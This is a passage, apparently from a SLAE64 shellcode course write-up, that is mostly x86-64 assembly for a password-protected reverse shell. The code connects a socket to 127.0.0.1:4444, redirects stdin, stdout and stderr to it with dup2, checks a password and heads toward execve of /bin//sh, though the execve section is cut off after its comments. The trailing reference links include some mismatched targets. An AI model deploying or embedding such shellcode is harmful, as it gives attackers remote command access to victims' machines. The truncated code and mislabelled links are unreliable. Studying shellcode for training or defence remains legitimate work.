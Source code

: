         xor rax, rax
        push rax          ; bzero()
        mov dword [rsp-4], 0x0100007f
        sub rsp, 4
        push word 0x5c11  ; htons(4444)
        push word 2

        ; connect
        mov rax, 42
        mov rsi, rsp
        mov rdx, 16  ; sizeof(sockaddr_in)
        syscall

    dup2:
        ; dup2(sock, 0);
        ; dup2(sock, 1);
        ; dup2(sock, 2);
        ; __NR_dup2 = 33

        mov rax, 33
        xor rsi, rsi
        syscall

        mov rax, 33
        inc rsi
        syscall

        mov rax, 33
        inc rsi
        syscall

    read_password:
        ; read(int fd, void *buf, size_t count)
        ; On success, the number of bytes read is returned

        xor eax, eax
        ;rdi = "sock"  ; already done
        push rax
        push rax       ; create space for "buf" in the stack
        push rsp
        pop rsi        ; rsi = *buf
        mov dl, 16
        syscall

    compare_password:
        xor ecx, ecx
        mov cl, [rel pass_len]
        lea rdi, [rel password]
        cld
        repz cmpsb
        jne exit

    execve:
        ; int execve(const char *path, char *const argv[], char *const envp[])
        ; rdi, path = (char*) /bin//sh, 0x00 (double slash for padding)
        ; rsi, argv = (char**) (/bin//sh, 0x00)
        ; rdx, envp = &0x00


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7
